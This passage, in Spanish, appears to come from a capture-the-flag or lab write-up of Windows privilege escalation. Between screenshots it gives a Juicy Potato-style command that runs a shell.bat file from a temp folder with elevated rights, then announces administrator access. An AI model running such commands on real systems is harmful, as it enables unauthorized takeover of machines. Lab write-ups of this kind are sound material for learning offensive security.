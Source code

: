 ![2170674f66c7dbc5f12ffd837d926847.png](2170674f66c7dbc5f12ffd837d926847.png)

Una vez subida todo lo necesario, ejecutemos lo siguiente, pero antes debemos de tener un servidor web a nivel de red, esto lo podemos hacer con python3 :
```bash
.\\Jp.exe -t * -p C:\\Users\\merlin\\appdata\\local\\temp\\privesc\\shell.bat -l 9002 
```
**![233cff5f0416cdb6982c8af7e29f414c.png](233cff5f0416cdb6982c8af7e29f414c.png)**

Ya seriamos administradores wow:

**![dbcac5271c95c2e2555755f9f8cd9df7.png](dbcac5271c95c2e2555755f9f8cd9df7.png)**